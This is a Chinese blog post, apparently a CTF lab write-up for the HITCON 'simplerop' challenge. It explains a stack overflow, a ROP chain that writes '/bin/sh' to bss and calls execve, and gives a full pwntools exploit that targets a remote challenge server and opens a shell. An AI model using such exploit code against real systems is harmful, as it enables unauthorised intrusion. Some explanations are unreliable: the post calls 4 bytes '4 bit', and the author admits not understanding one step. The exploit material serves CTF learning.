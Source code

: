 ```yaml
---
title: HITCON-lab
date: 2019-12-12 09:49:04
tags: pwn
---
```

<!-- more -->
## 0x01 Simplerop  
思路：  
32个垃圾数据 + execve("/bin/sh", 0, 0)  

首先运行一下，让我们输入，输入完成就会退出。  
那么我们继续用常用套路  
先检查保护，再用IDA看  
![](simplerop_1.png)  
![](simplerop_2.png)  
明显存在栈溢出 
![](simplerop_3.png)  
用cyclic查到溢出长度是32  
并且发现没有system函数以及/bin/sh  
那么需要自己构造execve(“/bin/sh”,0,0)  
该程序为32位程序，一次最多写入4 bit，那么需要把/bin/sh分两次写入（还需要知道0xb是execve的系统调用号）可以将/bin/sh写入bss段或data段  
![](simplerop_4.png)  
可以看到都是可读可写的段，我选择了bss段  
那么接下来去找gadget，这里用到ROPgadget这个工具去找  
![](simplerop_5.png)  
![](simplerop_6.png)  
![](simplerop_7.png)  
![](simplerop_8.png)  
找到了这几个gadget，然后这里的逻辑是，先将edx中放入bss段的基址，然后将”/bin”放入eax中，然后再将edx的地址中放入eax的值，相当于C语言中的*edx=eax，”/sh”同理，需要注意的是，”/sh”需要加截断符”\x00”，以及在此之前需要在edx中放入bss的地址加0x4，原理暂时未知。然后需要调用execve的系统调用号并布置参数，最后需要调用系统中断，系统中断后才能发送payload  
贴上exp:  
```Python
from pwn import*
#context.log_level = 'debug'
#p=process('./simplerop')
p=remote('120.79.1.69',10005)

pop_edx_ret = 0x806e82a
bss_addr = 0x80eaf80
pop_eax_ret = 0x80bae06
mov__edx__eax_ret = 0x809a15d
pop_edx_ecx_ebx_ret = 0x806e850

payload = "a"*32
payload+= p32(pop_edx_ret)
payload+= p32(bss_addr)
payload+= p32(pop_eax_ret)
payload+= "/bin"
payload+= p32(mov__edx__eax_ret)

payload+= p32(pop_edx_ret)
payload+= p32(bss_addr + 0x4)
payload+= p32(pop_eax_ret)
payload+= "/sh\x00"
payload+= p32(mov__edx__eax_ret)

payload+= p32(pop_eax_ret)
payload+= p32(0xb)
payload+= p32(pop_edx_ecx_ebx_ret)
payload+= p32(0x0)
payload+= p32(0x0)
payload+= p32(bss_addr)
payload+= p32(0x080493e1)


#p.recvuntil("Your input :")
p.sendline(payload)
p.interactive()             
```
